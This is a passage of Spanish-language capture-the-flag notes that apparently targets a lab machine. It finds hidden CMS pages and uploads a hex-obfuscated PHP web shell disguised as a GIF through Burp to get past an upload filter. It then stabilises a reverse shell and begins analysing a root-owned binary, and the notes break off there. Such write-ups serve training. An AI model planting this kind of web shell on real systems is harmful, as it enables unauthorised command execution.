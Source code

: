 - Vamos a scar la info , en la wordlist puse special chars
> **Pagename**
disavowlist
home
tutorials-incomplete
upload

- Visito `http://192.168.1.148/imfadministrator/cms.php?pagename=tutorials-incomplete`
- Encuentro flag **flag4{uploadr942.php}** y visito `http://192.168.1.148/imfadministrator/uploadr942.php`

- File upload
```php
<?php
# "system" word in hexadecimal
# 73 79 73 74 65 6D
# \x73\x79\x73\x74\x65\x6D
"\x73\x79\x73\x74\x65\x6D"($_GET['cmd']);
?>
```

```Burp
Content-Disposition: form-data; name="file"; filename="cmdhex.gif"
Content-Type: image/gif

GIF89a;
<?php
# "system" word in hexadecimal
# 73 79 73 74 65 6D
# \x73\x79\x73\x74\x65\x6D
"\x73\x79\x73\x74\x65\x6D"($_GET['cmd']);
?>
```

```bash
script /dev/null -c bash
Ctrol + Z
stty raw -echo ; fg # llevr netcat a 2 plano
reset xterm # o el visor que utilices
stty size # ver size de nuestra terminal
export TERM=xterm
export SHELL=bash
stty rows loquemedigamiterminal columns loquemedigamiterminal # en la revshell
```

- Flag flag5{YWdlbnRzZXJ2aWNlcw\==} -->  agentservices tendremos que encontrar este archivo y saber que es

```bash
www-data@imf:/$ find / -name  agent 2>/dev/null
/usr/local/bin/agent
/etc/xinetd.d/agent
```

- Encontramos el binario agent corriendo y en el **PATH**, ejecutado por root
- Ejecutamos y nos pide id,nos lo pasamos al PC y lo abrimos con ghidra, ejecuto **agent** para ver su comportamiento
>Comportamiento del programa
